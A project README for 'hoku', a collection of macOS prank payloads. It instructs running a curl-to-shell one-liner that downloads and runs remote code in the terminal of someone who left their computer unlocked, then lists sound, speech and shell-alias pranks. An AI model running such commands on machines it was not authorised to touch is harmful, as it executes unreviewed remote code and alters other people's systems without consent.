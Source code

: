 ### :speak_no_evil: hoku :speak_no_evil:

when someone leaves their computer unlocked, you want to do something. this is a repo of silly things you can do. they all follow the same idea. you run

`sh <(curl -sL hoku.me/xx) &`

in their terminal, where `xx` is the two-letter identifier of the prank payload.

-----
`ah`: play an airhorn sound randomly every x seconds, where x is between 0 and 800
 
`al`: change the default mac error sound to an airhorn and start a sleeper as a diversion
 
`er`: play the default mac error sound randomly every x seconds, where x is between 0 and 30
 
`fr`: play Friday by Rebecca Black on friday
 
`ls`: change the default mac error sound to an airhorn and set up a bash alias for `ls` to change it back to an airhorn if it's not already
 
`np`: open text edit and say 'gotcha' randomly every x seconds, where x is between 0 and 800
 

### contributing
if you have an idea for a prank, go ahead and put in a PR :simple_smile:
